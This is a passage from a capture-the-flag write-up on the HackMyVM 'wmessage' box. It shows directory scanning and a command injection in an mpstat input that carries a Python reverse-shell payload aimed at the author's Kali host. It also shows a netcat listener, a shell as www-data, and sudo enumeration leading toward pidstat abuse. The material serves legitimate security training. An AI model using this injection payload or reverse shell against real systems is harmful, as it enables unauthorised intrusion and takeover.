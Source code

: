 The `gobuster` scan revealed several interesting paths, including `/login` and `/sign-up`. The Nmap output already hinted at `/login`.

After creating an account and logging in, we can see that we can run the mpstat command using `!mpstat` in the input, I then tried to exploit a Code Injection vulnerability to trigger a reverse shell by providing this as input : `mpstat;python3 -c 'import os,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'`
<img width="1366" height="686" alt="image" src="https://github.com/user-attachments/assets/e8483086-b08d-43df-90d5-5c880d60212a" />

This indicates a command injection vulnerability where the `msg` parameter is executed, likely as part of an `mpstat` command. The payload attempts to establish a reverse shell to `192.168.1.5` (my Kali machine's IP) on port `4444`.

I set up a Netcat listener on my Kali machine:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/wmessage]
└─$ nc -lvnp 4444
Listening on 0.0.0.0 4444
```

After sending the crafted POST request (as shown in the screenshot), I received a connection:

```shellscript
Connection received on 192.168.1.35 46850
www-data@MSG:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I successfully obtained a shell as the `www-data` user.

### 3. Privilege Escalation to `messagemaster`

As `www-data`, I enumerated the file system and found two user directories in `/home`: `WM` and `messagemaster`.

```shellscript
www-data@MSG:/$ cd /home
www-data@MSG:/home$ ls -l
total 8
drwxr-xr-x 3 WM            WM            4096 Nov 29  2022 WM
drwxr-xr-x 3 messagemaster messagemaster 4096 Nov 22  2022 messagemaster
```

I checked `sudo` privileges for `www-data`:

```shellscript
www-data@MSG:/home$ sudo -l
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

This showed that `www-data` could run `/bin/pidstat` as the `messagemaster` user without a password. The `pidstat` command has an `-e` option to execute a program. This is a common GTFOBins-like vulnerability.
